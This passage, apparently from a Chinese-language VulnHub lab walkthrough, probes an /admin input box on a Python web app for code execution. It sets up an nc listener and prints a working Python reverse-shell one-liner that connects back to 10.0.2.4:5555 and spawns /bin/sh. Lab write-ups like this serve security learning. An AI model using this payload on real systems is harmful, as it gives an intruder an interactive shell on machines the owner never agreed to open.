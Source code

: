 

- 通过访问/admin目录，如下所示：

![image-20220119142708692](https://raw.githubusercontent.com/NUK96/VulnHub_TargetDrone_Pratice/main/images/%E7%9B%AE%E5%BD%95%E8%AE%BF%E9%97%AE.png)



因为想着是用python写的一个web框架，刚好这里有输入框，就继续尝试有没有命令执行和代码执行的漏洞，遂通过nc在本地监听5555端口，通过python的反弹shell的代码来进行执行，如下所示

- nc反弹shell的代码：


```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.4",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```
